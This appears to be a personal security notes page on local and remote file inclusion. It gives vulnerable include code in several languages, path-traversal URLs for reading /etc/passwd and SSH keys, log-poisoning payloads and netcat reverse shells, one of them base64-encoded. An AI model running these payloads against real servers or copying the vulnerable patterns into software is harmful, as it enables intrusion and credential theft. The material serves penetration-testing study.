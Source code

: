 ```yaml
---
title: Notes | LFI
author: Zeropio
date: 2022-04-23
categories: [Notes, Vulnerabilities]
tags: [lfi]
permalink: /notes/vulnerabilities/lfi
---
```



# Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion. The most common place we usually find LFI within is templating engines, for example `/index.php?page=about`. Where `index.php` sets static content and the parameter `page` dinamically. LFI vulnerabilities can lead to source code disclosure, sensitive data exposure, and even remote code execution under certain conditions.

Some examples of insecure code:
- PHP 

```php
if (isset($_GET['language'])) {
    include($_GET['language']);
}
```

- NodeJS 

```javascript
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}
```

- Express.js 

```javascript
app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```

- Java 

```jsp
<c:if test="${not empty param.language}">
    <jsp:include file="<%= request.getParameter('language') %>" />
</c:if>
```

- .NET 

```cs
@if (!string.IsNullOrEmpty(HttpContext.Request.Query['language'])) {
    <% Response.WriteFile("<% HttpContext.Request.Query['language'] %>"); %> 
}
```
```cs
@Html.Partial(HttpContext.Request.Query['language'])
```
```cs
<!--#include file="<% HttpContext.Request.Query['language'] %>"-->
```

## Read vs Execute

There are a difference in these functions between read and execute. Some of the above functions **only read** the content of the specified files, while others also **execute** the specified files:

| **Function**    | **Read content**   | **Execute**    | **Remote URL** |
|---------------- | --------------- | --------------- | -------------- |
| **PHP** |     
| `include()`/`include_once()` | <ul><li>- [x]</li></ul> | - [x] | - [x] | 
| `require()`/`require_once()` | - [x] | - [x] | - [ ] |
| `file_get_contents()` | - [x] | - [ ] | - [x] |
| `fopen()`/`file()` | - [x] | - [ ] | - [ ] |

For example:
```
http://localhost/example.php?file=../../../../../../../etc/passwd
http://localhost/example.php?file=../../../../../../windows/system32/drivers/etc/hosts
```

With the terminal we can check easily:
```console
> curl -s "http://localhost/example.php?file=/etc/passwd"
```
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

###  Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
```console
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
```

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

#### Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

###  Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
```php
<?passthru('nc -e /bin/bash <ip> <port>');?>
```
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
```
Now we can execute code in the system.

Also, we can try to login (for example with ssh). **auth.log** will save the login attempt, if we execute the page after the login we will execute the script.
##### Maybe we need to encode the payload to base64

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
```console
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
```
- Then we send this "user" to the log:
```console
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
```
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
```


# Remote File Inclusion (RFI)
Load files into the server.

We can create a plain file (**.txt**) with a php content:
```php
<?php
  passthru('nc -e /bin/sh 192.168.1.134 9000');
?>
```

Then we change the url with:
```
...?index=http://<ip>/revershell.txt
```
And then we can execute code.
